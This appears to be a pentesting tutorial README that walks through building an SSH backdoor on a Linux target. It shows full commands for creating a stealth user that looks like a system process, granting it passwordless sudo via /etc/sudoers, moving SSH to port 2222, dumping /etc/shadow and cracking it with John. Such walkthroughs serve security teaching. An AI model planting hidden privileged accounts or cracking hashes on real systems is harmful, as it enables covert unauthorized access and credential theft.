



# Creating a Back-Door - Owning the System

There are several Pentesting phases, methodologies, or frameworks such as the Mitre and the Cyber kill Chain frameworks. This project focus on the fourth phase of engagement (Maintaining Access) or their equivalents like "Command and Control" for the cyber kill chain or "Persistence" for the Mitre framework.

To obtain this persistence, a backdoor is created using the SSH service. In short, two things need to be accomplished to succeed in this task: Create a user, and set the SSH server.

> NOTE: This walkthrough assumes that the commands are executed as the root user. Otherwise, will be necessary to be a privileged user and to use the sudo command when required.

---

## Three steps are required to accomplish this task:

- Step 1: **Be a shadow** (Create a stealth user).

- Step 2: **Getting ready for a Smooth Sailing** (Set the SSH backdoor connection).

- Step 3: **All aboard** (The Final Test).

---

## Step 1: Be a shadow (Create a stealth user).


To be a "shadow" in the system means to remain as unnoticed as possible. To achieve it, we will create a user with different features next listed.

1. The right user's name.
2. User with no home directory.
2. System user's UID and GID.
4. Grant full sudo privileges to the "shadow user" without the need of a password.
5. Testing

- ### The right user's name

    Use a name that blends with the system, so remain unotice. A name that looks as a process will be the choice in this walkthrough.

    **Username: sysd**

- ### User with no home directory   

    It is easy to look for listed users in a Linux system by quering the /home directory (see the picture). 
    
         
    
    A user not listed in the home path will obtain stealth. To create a new user without a folder in the home directory, use the next command:

    `adduser --no-create-home sysd`

    Give your secret user a password

    Press enter on each of the next setting to leave them blank.

     

- ### System user's UID and GID

    UID (User Identified), and GID (Group Identifier) are numbers that identify users and groups. Numbers below 1000 are reserved for system processes. The "shadow user" should look like another process, so the following commands will do that.

    `usermod  -u 777 sysd`

    `groupmod -g 777 sysd`

    

- ### Grant full sudo privileges to the "shadow user" without the need of a password.

    On a Linux system, the sudoers file is the file where the privilege settings exist. Here, sudo access will be configured for the "shadow" user using the following command:

    `echo 'sysd ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers`

    

- ### Testing

    To verify that the "shadow" user has full sudo privileges and is ready to use them without a password, use the following commands:

    Check sysd priviledges:

    `sudo  -lU sysd`

    

    Switch from current user to sysd user:

    `su sysd`

    

    To test the current user sudo privileges, we need to revoke any previous sudo privileges stored in the cache. The next command accomplishes this.

    `sudo -k`

    

    Check if ask for password when accessing the shadow file. This sensitive file holds the passwords' hash of all users in the system. Usually, only a sudo privilege user has access to this file. This user would need to enter a password to gain access. If no password is required, our setting pass the test. 

    `sudo cat /etc/shadow`

    
    > Note in the image that sysd user is listed in the file with its respective password hash
---

## Step 2: Getting ready for a Smooth Sailing (Set the SSH backdoor connection)

We will use SSH (Secure Shell) to establish a remote connection with the target device. To create this backdoor, we need to set the SSH server configuration file. This file is located in the ssh directory. This directory holds several configuration files such as the SSH client, SSH server, and public and private keys used to encrypt sessions. SSH normally uses port 22. We want to maintain a stealth connection, so we are changing that port to 2222.

- Access and modify the file with nano:

    `nano /etc/ssh/sshd_config`

    

  - Edit the sshd_config file:

    `Port 2222`

    

- Save and Exit
    ```
    Press "Ctrl x" keys
    Press "y" key
    Press "enter" key
    ```

- Restart the SSH service to activate the new configuration:

    `sudo systemctl restart ssh`

    

---

## Step 3: All aboard (The Final Test)

Exiting the target machine, then access it again through the previously created backdoor.

- Exit the target machine

    Enter the exit command and hit enter until exit the target machine

    `exit`

    
  

- Access the target throught the backdoor (change the ip address for the one of your target machine).

    `ssh sysd@192.168.200.105 -p 2222`

     

- Use sudo to switch to the root user:

    `sudo -s`

    

---

# Enjoy yourselve (THE END ?)


A backdoor has been created. Now that persistence (Command and Control or Maintaining Access) has been accomplished, it is time to move to the next step of the killer chain (Actions on Objective) or to the last stage of engagement (Covering your tracks).

Example:
Use John to crack the entire /etc/shadow file:

`john /etc/shadow`

